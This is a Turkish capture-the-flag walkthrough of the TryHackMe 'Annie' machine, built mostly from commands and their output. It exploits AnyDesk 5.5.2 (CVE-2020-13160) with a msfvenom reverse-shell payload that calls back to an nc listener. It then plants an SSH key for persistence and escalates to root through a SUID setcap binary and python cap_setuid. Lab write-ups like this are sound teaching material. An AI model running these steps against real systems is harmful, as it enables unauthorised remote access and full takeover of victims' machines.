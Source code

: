 ```yaml
---
title: "Annie Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere TryHackMe platformunda bulunan “Annie” isimli makinenin çözümü anlatacağım. Keyifli Okumalar…

1 - Nmap aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# nmap -sS -sV 10.10.29.245
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-25 05:34 EDT
Nmap scan report for 10.10.29.245
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp open  ssl/realserver?
```

2 - Port taraması yaptıktan sonra "7070" portunda bir Anydesk servisi çalıştığını görüyorum. Searchsploit ile uygun bir exploit arıyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# searchsploit "anydesk"       
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AnyDesk 2.5.0 - Unquoted Service Path Privilege Escalation                                                                      | windows/local/40410.txt
AnyDesk 5.4.0 - Unquoted Service Path                                                                                           | windows/local/47883.txt
AnyDesk 5.5.2 - Remote Code Execution                                                                                           | linux/remote/49613.py
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


┌──(root㉿kali)-[/home/kali/Downloads]
└─# searchsploit -m 49613  
  Exploit: AnyDesk 5.5.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49613
     Path: /usr/share/exploitdb/exploits/linux/remote/49613.py
    Codes: CVE-2020-13160
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/Downloads/49613.py
```

3 - Python dosyasını incelediğim zaman kendi ip-port bilgime uygun bir shellcode yazmam gerektiğini görüyorum. Msfvenom aracı ile shellcode oluşturuyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.94.51 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=17, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
Final size of python file: 680 bytes
shellcode =  b""
*CENSORED*
```

4 - Exploit içindeki shellcode ve IP değişkenlerini değiştirip çalıştırıyorum ve bir bağlantı elde ediyorum. Daha sonra ilk bayrağı elde ediyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# python2.7 49613.py
sending payload ...
reverse shell should connect within 5 seconds

┌──(root㉿kali)-[/home/kali/Downloads]
└─# nc -lvnp 4444                                                                                               
listening on [any] 4444 ...
connect to [10.8.94.51] from (UNKNOWN) [10.10.29.245] 41770
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
user.txt
cat user.txt
*CENSORED*
```

5 - Kendi SSH anahtarımı makinenin kayıtlı anahtarlar dosyasına ekliyorum. Böylece parola olmadan SSH bağlantısı yapabileceğim.

```system
SHELL=/bin/bash script -q /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$ echo "ssh-rsa *CENSORED* root@kali" > .ssh/authorized_keys
<9JQSPRxaxjReNyls= root@kali" > .ssh/authorized_keys
```

6 - SSH bağlantısı kurduktan sonra suid biti aktif komutları listeliyorum ve "/sbin/setcap" komutunu görüyorum. Setcap, bir komuta yetenek (capabilities) tanımlamamızı sağlıyor.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# ssh annie@10.10.29.245
*
*
annie@desktop:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/setcap <--------------------------
 /bin/mount
/bin/ping
/bin/su
/bin/fusermount
/bin/umount
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
annie@desktop:~$
```

7 - Setcap ile pythona bir yetenek veriyorum. "cap_setuid" süreçlerin, kullanıcı kimliklerini değiştirebilmesine izin veren bir yetenektir. "+ep" ise e (effective) modu, belirtilen yeteneğin etkin hale getirilmesini sağlar. p (permanent) modu ise yeteneğin kalıcı olarak atanmasını sağlar. Daha sonra GTFObins sitesinden bu yeteneği nasıl suistimal edeceğimi öğreniyorum. Root kullanıcısına geçtikten sonra ikinci bayrağı elde ediyorum.

```system
annie@desktop:~$  cp /usr/bin/python3 .
annie@desktop:~$ /sbin/setcap cap_setuid+ep python3
root@desktop:~# getcap / -r 2>/dev/null
/home/annie/python3 = cap_setuid+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
annie@desktop:~$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@desktop:~# whoami
root
root@desktop:~# cat /root/root.txt
*CENSORED*
```